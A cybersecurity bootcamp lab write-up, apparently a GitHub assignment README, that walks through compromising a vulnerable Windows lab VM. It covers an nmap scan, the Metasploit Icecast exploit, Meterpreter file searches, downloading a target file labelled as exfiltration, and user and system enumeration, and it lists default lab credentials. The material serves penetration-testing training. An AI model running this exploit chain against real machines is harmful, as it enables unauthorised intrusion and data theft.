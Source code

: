 <img align="left" width="100" height="100" src="https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/PenTestIcon.png" alt="hacker icon">

### Penetration Test Engagement Report

#### Lab Environment
 
| Credentials | Username | Password |
|----------|----------|------------|
| **Kali Linux VM** | root | toor |
| **DVW10 VM** | IEUser | Passw0rd! |
 

**NOTE**: We need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- Now we ready to begin the activity.

---

We've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > **ANS:** `nmap -sS -sV -O 192.168.0.20`  
      
      > -sS [target]   = TCP SYN port scan (Default)
      
      > -O  [target]   = Operating system detection 
      
      > -sV [target]   = Service version detection 
       
![1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/1.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > **ANS:** `searchsploit icecast`  
  
![2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/2.png)


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > **ANS:** `msfconsole` 
 
![3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/3.png)


4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > **ANS:** `search icecast`  
  
![4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/4.png)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > **ANS:** `use 0`  
        
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > **ANS:** `set RHOST 192.168.0.20`  

 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > **ANS:** `run`

![5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/5.png) 

  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > **ANS:** `search -f *secretfile*.txt`  
  
![6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/6.png) 

  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > **ANS:** `search -f *recipe*.txt`  
 
![7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/7.png) 

 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > **ANS:** `download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’`  
      
![8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/8.png)
![9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/9.png)
 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
      > **ANS:** `run post/multi/recon/local_exploit_suggester`    

![10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/10.png)

### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > **ANS:** `run post/windows/gather/enum_logged_on_users`    

![11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/11.png)

     
B. Open a Meterpreter shell and gather system information for the target.
 
  > **ANS:** 
  
  > `shell`  
  > `systeminfo`

![12](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/12.png)
![13](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/13.png)
 
C. Run the command that displays the target's computer system information:

   > **ANS:** `sysinfo` 

![14](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/14.png)


---
___

 - Full Penetration Test Engagement Report available at [Report_10132021](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Report/Penetration%20Test%20Engagement%20Report.pdf)

---
___



### Citations and References:

#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---  
